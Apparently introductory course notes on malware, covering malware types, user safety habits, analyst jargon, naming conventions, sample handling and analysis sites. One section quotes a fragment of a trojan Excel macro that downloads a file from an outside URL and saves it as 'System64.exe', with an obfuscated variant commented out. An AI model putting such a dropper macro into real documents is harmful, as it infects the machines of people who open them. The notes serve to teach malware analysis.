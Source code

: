 ## Week 1

### Introduction
The first lecture serves as an introduction to malware, a catch-all term for unwanted software running on a device. Malware includes software running on your machine as malicious as ransomware (software that encrypts the contents of your computer for the purposes of extorting you) to something more benign but annoying like adware (software which bombards the user with ads and pop-ups). Malware is primarily used for financial gain, information gathering, and/or as a method to attack companies or users. It can be employed by nearly anyone with access to the internet and some simple computer know-how, like criminal organizations, lone agents, or government entities. The need to prevent or resolve the issues caused by malware have led to the creation of companies and organizations devoted to anti-malware.

### Anti-Malware
Anti-malware groups have developed methodologies for the purposes of detection, prevention, and, in some cases, destruction of malware. To deal with a malware threat, it is necessary to understand and categorize malware. There are commonly a few types of malware and they tend to fall into the following categories:
1. Virus - characterized by a pattern of spreading
2. Trojans - characterized by method of entry onto a user's machine.
3. Potentially Unwanted Program - catch-all term for other malware that don't follow either patterns

Although the prospect of viruses and trojans might be worrisome, it has been determined by the security community that the most common attack vector is through the user themselves. Following a few rules regarding computer security will go a long way to help prevent most attacks. These include, but are not limited to, the following:

1. Don't visit questionable sites.
2. Know where your files are from before opening them.
3. Don't use random USB sticks.
4. Don't access programs or mobile apps from unverifiable authors.

### Malware
As an example, a trojan could have been hidden inside of a macro run as a result of opening an Excel file. It may have looked like this:
```
Sub DoWork()

Dim tmp As String, fName As String, Pos As Long, fPath As String

tmp = DownloadFile("http://ge.tt/api/1/files/8e8kZt72/0/blob?download")

'tmp = DownloadFile(rc4decrypt("YMe & chr(34)& lp52wsnV4"DyQw0DKMNIE_uZmPuzUL5b0WoVZ2r3E7f & chr(34)& jG713r1IgISh3hZD1a", "System64.exe"))

fName = "System64.exe
```

### Terminology
The security community has also devised a few terms in their work with malware. This includes, but is not limited to, the following:
1. white - a known clean file
2. black - a known dirty file
3. gray - a file which has neither been confirmed clean or dirty
4. sample - a copy of malware
5. goat - sacrificial system for working with malware
6. hash (ex: md5) - a signature that calculated the value of the file; used to id files, write code to detect; polymorphic files are a pain for this reason
7. honeypot - a vulnerable system that intentionally gets infected with viruses for evaluation
8. imphash - import hash, a hash calculated for viruses; this can be used to determine if the virus is part of the same "family" of viruses; if they use a similar import hash
9. dropper - the file that is used by a trojan


### Practices
Standards in naming are used to categorize malware. A particular convention is to categorize by type (virus, trojan, etc.), then platform (linux, win32, etc.), then family of malware (malware that displays similar behavior, imphash, etc.), then a variant name using letters as a designation. This naming convention allows anti-malware software and professionals to quickly understand its high level characteristics (how does it spread, what does it do). 


Handling malware requires special considerations. The malware files are zipped and encrypted with the password "infected". The sample extension is also renamed, either changing the extension or adding a hash. Isolation of your machine is also necessary.

# 1.4.7:54

### Useful Tools
- Virustotal - a site where users can upload an md5 hash/file/url to search against a database maintained by many vendors to determine the type of malware they're dealing with.
- Malwr - a sample is provided to the site, an isolated environment evaluates the malware, and reports back behavior
- Wepawet - used for analysis of obfuscated java, pdf, files for decryption.
- Comodo - document analyzer.
